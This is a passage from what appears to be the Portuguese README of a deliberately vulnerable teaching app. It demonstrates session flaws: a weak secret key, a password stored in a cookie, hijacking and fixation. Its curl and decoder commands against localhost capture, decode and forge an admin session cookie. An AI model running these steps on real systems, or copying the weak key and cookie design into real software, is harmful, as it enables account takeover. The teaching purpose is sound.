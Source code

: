 ## 🚨 Vulnerabilidades Demonstradas

### **1. Chave Secreta Fraca**
- **Chave atual:** `weak-secret-key`
- **Problema:** Facilmente descoberta por força bruta
- **Impacto:** Decodificação e falsificação de sessões

### **2. Dados Sensíveis em Cookies**
```json
{
  "user": {
    "id": 1,
    "username": "admin",
    "password": "admin123",  // ❌ NUNCA armazenar senhas
    "role": "admin"
  }
}
```

### **3. Session Hijacking**
- **Método:** Interceptação e modificação de cookies
- **Demonstração:** Script cria versões maliciosas válidas
- **Impacto:** Personificação de usuários

### **4. Session Fixation** 
- **Método:** Forçar vítima a usar sessão pré-definida
- **Demonstração:** Cookies fixados com timestamps
- **Impacto:** Controle total da sessão da vítima

## 🧪 Testes Práticos

### **Cenário 1: Interceptação de Cookie**
```bash
# 1. Capturar cookie legítimo
curl -c cookies.txt -X POST -d "username=admin&password=admin123" http://localhost:3000/login

# 2. Extrair cookie
grep connect.sid cookies.txt | cut -f7

# 3. Decodificar
./session-decoder.js "cookie_capturado"
```

### **Cenário 2: Session Hijacking**
```bash
# 1. Criar cookie malicioso
./session-decoder.js --create '{"user":{"id":999,"username":"hacker","role":"admin"}}'

# 2. Usar cookie para acessar admin
curl -H "Cookie: connect.sid=cookie_malicioso" http://localhost:3000/dashboard
```
